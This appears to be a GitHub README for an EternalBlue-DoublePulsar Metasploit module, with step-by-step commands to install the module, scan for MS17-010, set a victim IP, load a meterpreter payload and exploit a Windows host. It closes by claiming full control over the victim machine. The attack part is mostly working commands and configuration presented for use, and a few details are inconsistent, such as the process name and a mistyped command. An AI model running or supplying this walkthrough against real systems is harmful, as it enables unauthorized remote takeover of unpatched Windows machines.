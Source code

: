 # Eternalblue-Doublepulsar-Metasploit

We need to download and add the Scanner and exploit to Metasploit. Open your Terminal windows and Type following commands.

Move file smb_ms17_010.rb under the folder usr/share/metasploit-framework/modules/auxiliary/scanner/smb

~~~
sudo cp smb_ms17_010.rb /usr/share/metasploit-framework/modules/auxiliary/scanner/smb
~~~

And then you should copy Eternal Blue-Doublepulsar.rb and debs to under usr/share/metasploit-framework/modules/exploits/windows/smb

~~~
sudo cp eternalblue_doublepulsar.rb /usr/share/metasploit-framework/modules/exploits/windows/smb
sudo cp -r deps /usr/share/metasploit-framework/modules/exploits/windows/smb
~~~

Now Open the Eternal Blue-Doublepulsar.rb with any Editor and change the path directory for ETERNALBLUE and DOUBLEPULSAR to smb exploit directory usr/share/metasploit-framework/modules/exploits/windows/smb.
~~~
sudo nano /usr/share/metasploit-framework/modules/exploits/windows/smb/eternalblue_doublepulsar.rb
~~~
~~~
register_options([
	OptEnum.new('TARGETARCHITECTURE', [true,'Target Architecture','x86',['x86','x64']]),
	OptString.new('ETERNALBLUEPATH',[true,'Path directory of Eternalblue','/usr/share/metasploit-framework/modules/exploits/windows/smb/']),
	OptString.new('DOUBLEPULSARPATH',[true,'Path directory of Doublepulsar','/usr/share/metasploit-framework/modules/exploits/windows/smb/']),
	OptString.new('WINEPATH',[true,'WINE drive_c path','/root/.wine/drive_c/']),
	OptString.new('PROCESSINJECT',[true,'Name of process to inject into (Change to lsass.exe for x64)','wlms.exe'])
], self.class)
~~~

Also Read  NSA Malware “EternalBlue” Successfully Exploit and Port into Microsoft Windows 10

Then we should specify the name of the process to be injected, we have specified here as 'explorer.exe'

Then you should launch msfconsole and use the auxiliary scan module smb_ms17_010.rb.
~~~
    dBBBBBBb  dBBBP dBBBBBBP dBBBBBb  .                       o
       '   dB'                     BBP
    dB'dB'dB' dBBP     dBP     dBP BB
   dB'dB'dB' dBP      dBP     dBP  BB
  dB'dB'dB' dBBBBP   dBP     dBBBBBBB

                                   dBBBBBP  dBBBBBb  dBP    dBBBBP dBP dBBBBBBP
          .                  .                  dB' dBP    dB'.BP
                             |       dBP    dBBBB' dBP    dB'.BP dBP    dBP
                           --o--    dBP    dBP    dBP    dB'.BP dBP    dBP
                             |     dBBBBP dBP    dBBBBP dBBBBP dBP    dBP

                                                                    .
                .
        o                  To boldly go where no
                            shell has gone before


       =[ metasploit v6.1.32-dev                          ]
+ -- --=[ 2205 exploits - 1168 auxiliary - 395 post       ]
+ -- --=[ 600 payloads - 45 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: After running db_nmap, be sure to
check out the result of hosts and services
msf6 > 
~~~

use the auxiliary scan module smb_ms17_010.rb
~~~
msf6 > use auxiliary/scanner/smb/smb_ms17_010
msf6 > show options
~~~

Now you should setup RHOSTS IP which is the Victims Ip address.
~~~
msf6 > set RHOSTS IP
msf6 > run
~~~

It will go and check whether the host is vulnerable or not and also display the victim machine details.

Now we can move to the exploit EternalBlue & Double Pulsar                                             
~~~
msf6 > use exploit/windows/smb/eternalblue_doublepulsar
msf6 > set payload windows.x64/meterpreter/bind_tcp
msf6 > show options
~~~

Then set a target architecture and then RHOST Victim IP address.
~~~
msf6 > setRHOST IP
msf6 > set targetarchitecture x64
msf6 > show options
~~~

And then type exploit and hit enter.

It’s done now we have got the meterpreter session and the vulnerability has been exploited.

Now the system has been exploited successfully and we have full control over the victim machine now.

| THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.

***source:***
[rapid7](https://github.com/rapid7/metasploit-framework/modules/auxiliary/scanner/smb)
[ElevenPaths](https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit)
